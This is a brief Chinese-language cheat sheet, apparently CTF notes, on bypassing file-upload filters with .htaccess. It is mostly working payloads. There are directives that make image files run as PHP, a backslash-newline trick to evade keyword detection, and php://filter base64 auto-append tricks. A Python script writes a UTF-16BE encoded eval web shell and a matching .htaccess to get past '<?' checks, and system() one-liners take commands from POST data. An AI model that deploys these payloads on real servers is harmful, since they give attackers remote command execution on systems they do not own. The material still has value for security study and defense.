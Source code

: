 - [https://blog.csdn.net/LYJ20010728/article/details/116541325](https://blog.csdn.net/LYJ20010728/article/details/116541325)
- [https://blog.csdn.net/LYJ20010728/article/details/116538926](https://blog.csdn.net/LYJ20010728/article/details/116538926)
- ```htaccess
  <FilesMatch "b.png">
  SetHandler application/x-httpd-php
  </FilesMatch>
  ```
- 之后访问b.png就可以运行b.png中的脚本
- 可以用 `\` 加换行绕过关键词检测
- 绕过：
- ```
  php_value auto_prepend_fi\\
  le .htaccess
  #<?php echo 123;?>
  #<?=123?>
  #<?php @system($_POST['data']);?>
  ```
- 可以使用伪协议
- ```
  AddType application/x-httpd-php .xxx
  php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.xxx"
  ```
- 也可以通过设置编码格式为utf-16be来绕过文件上传会检测 `<?` 的限制
- ```
  SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"
  ​
  def generate_php_file(filename, script):
  phpfile = open(filename, 'wb') 
  ​
  phpfile.write(script.encode('utf-16be'))
  phpfile.write(SIZE_HEADER)
  ​
  phpfile.close()
  ​
  def generate_htacess():
  htaccess = open('.htaccess', 'wb')
  ​
  htaccess.write(SIZE_HEADER)
  htaccess.write(b'AddType application/x-httpd-php .ppp\n')
  htaccess.write(b'php_value zend.multibyte 1\n')
  htaccess.write(b'php_value zend.detect_unicode 1\n')
  htaccess.write(b'php_value display_errors 1\n')
  ​
  htaccess.close()
      
  generate_htacess()
  ​
  generate_php_file("shell.ppp", "<?php eval($_GET['cmd']); die(); ?>")
  ```
